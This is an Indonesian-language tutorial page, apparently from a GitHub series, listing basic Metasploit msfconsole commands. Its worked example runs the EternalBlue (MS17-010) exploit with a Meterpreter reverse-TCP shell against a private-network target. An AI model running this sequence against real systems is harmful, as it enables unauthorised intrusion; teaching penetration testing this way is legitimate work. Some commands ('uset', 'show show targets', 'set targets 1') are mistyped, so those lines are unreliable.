 <p align="left"><b>Sebelumnya</b>: <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Antarmuka%20Metasploit%20Framework.md">Antarmuka Metasploit Framework</a></p>

## Perintah Dasar MSFconsole

### Perintah Navigasi dan Bantuan

| Perintah | Deskripsi |
|:--:|:--:|
| `help` | Menampilkan daftar perintah yang tersedia |
| `help [perintah]` | Menampilkan bantuan untuk perintah tertentu |
| `back` | Kembali dari konteks modul ke prompt utama |
| `exit` | Keluar dari MSFconsole |
| `version` | Menampilkan versi Metasploit Framework |

### Perintah Pencarian dan Informasi

| Perintah | Deskripsi |
|:--:|:--:|
| `search [kata kunci]` | Mencari modul berdasarkan kata kunci |
| `info [modul]` | Menampilkan informasi tentang modul tertentu |
| `show exploits` | Menampilkan semua modul exploit yang tersedia |
| `show auxiliary` | Menampilkan semua modul auxiliary yang tersedia |
| `show payloads` | Menampilkan semua payload yang tersedia |
| `show options` | Menampilkan opsi yang tersedia untuk modul yang dipilih |

### Penggunaan Modul

| Perintah | Deskripsi |
|:--:|:--:|
| `use [path modul]` | Memilih modul untuk digunakan |
| `set [opsi] [nilai]` | Mengatur nilai untuk opsi tertentu |
| `setg [opsi] [nilai]` | Mengatur nilai global untuk opsi tertentu |
| `uset [opsi]` | Menghapus nilai opsi |
| `check` | Memeriksa apakah target rentan (tidak semua modul mendukung) |
| `run` atau `exploit` | Menjalankan modul yang dipilih |

## Contoh Penggunaan Dasar

### Mencari Modul

```
search type:exploit platform:windows remote
```

Untuk pencarian lebih spesifik

```
search cve:2021 type:exploit
```

### Menggunakan Modul

```
# Menggunakan modul EternalBlue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue

# Menampilkan opsi yang ada di modul ms17_010_eternalblue
show options

# Menggunakan payload windows/x64/meterpreter/reverse_tcp
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Setting alamat IP target yang ingin dieksploitasi
set RHOSTS 192.168.1.10

# Setting port SMB dari target (default: 445)
set RPORT 445

# Setting alamat IP lokal (attacker) yang akan menerima koneksi reverse
set LHOST 192.168.1.5

# Setting port lokal untuk koneksi reverse
set LPORT 4444

# Menampilkan daftar target yang didukung oleh modul
show show targets

# Memilih target yang sesuai dari daftar (misal: 1)
set targets 1

# Menjalankan eksploitasi
exploit
```

## Fitur Tambahan MSFconsole

### Mengelola Sesi 

| Perintah | Deskripsi |
|:--:|:--:|
| `sessions -l` | Menampilkan semua sesi yang aktif |
| `sessions -i [id]` | Berinteraksi dengan sesi tertentu |
| `sessions -k [id]` | Menghentikan sesi tertentu |

### Manajemen Database

| Perintah | Deskripsi |
|:--:|:--:|
| `db_status` | Memeriksa status koneksi database |
| `workspace` | Menampilkan dan mengelola workspace | 
| `hosts` | Menampilkan host yang tersimpan di database |
| `services` | Menampilkan layanan yang tersimpan di database |
| `vulns` | Menampilkan kerentanan yang terdeteksi |

Itu dia perintah dasar MSFconsole.

<p align="right"><b>Selanjutnya</b>: <a href="">Next</a></p>
